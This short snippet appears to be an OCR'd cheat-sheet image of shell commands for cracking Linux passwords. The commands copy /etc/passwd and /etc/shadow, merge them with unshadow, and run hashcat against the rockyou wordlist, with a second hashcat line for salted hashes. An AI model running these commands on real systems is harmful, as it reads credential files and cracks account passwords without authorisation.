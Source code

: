 
cat /etc/passwd > passwd.txt
cat /etc/shadow > shadow.txt
unshadow passwd.txt shadow.txt > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O



[hash-with-salt]            hashcat -m 1710 -a 0 hash:salt /usr/share/wordlists/rockyou.txt
